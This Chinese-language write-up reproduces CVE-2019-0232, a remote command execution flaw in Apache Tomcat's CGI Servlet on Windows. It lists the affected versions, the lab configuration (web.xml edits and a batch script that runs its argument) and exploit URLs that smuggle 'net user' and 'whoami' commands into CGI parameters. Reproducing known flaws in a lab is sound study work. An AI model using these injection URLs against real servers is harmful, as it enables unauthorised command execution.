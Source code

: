 ## CVE-2019-0232 Apache Tomcat远程代码执行漏洞

**简介**

  Tomcat 服务器是一个免费的开放源代码的Web  应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP  程序的首选。对于一个初学者来说，可以这样认为，当在一台机器上配置好Apache  服务器，可利用它响应HTML（标准通用标记语言下的一个应用）页面的访问请求。实际上Tomcat是Apache  服务器的扩展，但运行时它是独立运行的，所以当你运行tomcat 时，它实际上作为一个与Apache 独立的进程单独运行的

**漏洞描述**

  该漏洞只对Windows平台有效，攻击者向CGI Servlet发送请求，可在具有Apache  Tomcat权限的系统上注入和执行任意操作系统命令。漏洞成因是当将参数从JRE传递到Windows环境时，由于CGI_Servlet中的输入验证错误而存在该漏洞。CGI_Servlet默认是关闭的

**漏洞影响范围**

```
Apache Tomcat 9.0.0.M1 ~ 9.0.17
Apache Tomcat 8.5.0 ~ 8.5.39
Apache Tomcat 7.0.0 ~ 7.0.93
```

**利用条件**

打开Tomcat按目录下的conf/web.xml 取消以下两项的注释，否则访问cgi目录会提示404，默认情况下是注释的

**Web.xml文件 (两处代码都需要取消注释)**

```xml 
<servlet>
    <servlet-name>cgi</servlet-name>
    <servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
    <init-param>
      <param-name>debug</param-name>
      <param-value>0</param-value>
    </init-param>
    <init-param>
      <param-name>cgiPathPrefix</param-name>
      <param-value>WEB-INF/cgi-bin</param-value>
    </init-param>
    <init-param>
      <param-name>executable</param-name>
      <param-value></param-value>
    </init-param>
     <load-on-startup>5</load-on-startup>
</servlet> 

<!-- The mapping for the CGI Gateway servlet -->

<servlet-mapping>
    <servlet-name>cgi</servlet-name>
    <url-pattern>/cgi-bin/*</url-pattern>
</servlet-mapping>
```

修改在conf/context.xml中的<Context>添加privileged="true"语句

在webappsROOTWEB-INF下创建一个cgi-bin文件夹，并在文件夹内创建一个bat文件写入

```
@echo off
echo Content-Type: text/plain
echo .
set off=%~1
%off%
```

都配置完成之后进入 bin目录下运行 startup.bat 启动tomcat

**漏洞复现**

  1.在浏览器访问,执行net user 命令

```
http://your-ip/cgi-bin/test.bat?&C%3A%5CWindows%5CSystem32%5Cnet%20user
```

  2.执行whoami命令
```
http://192.168.64.137:8080/cgi-bin/test.bat?c:/windows/system32/whoami.exe
```
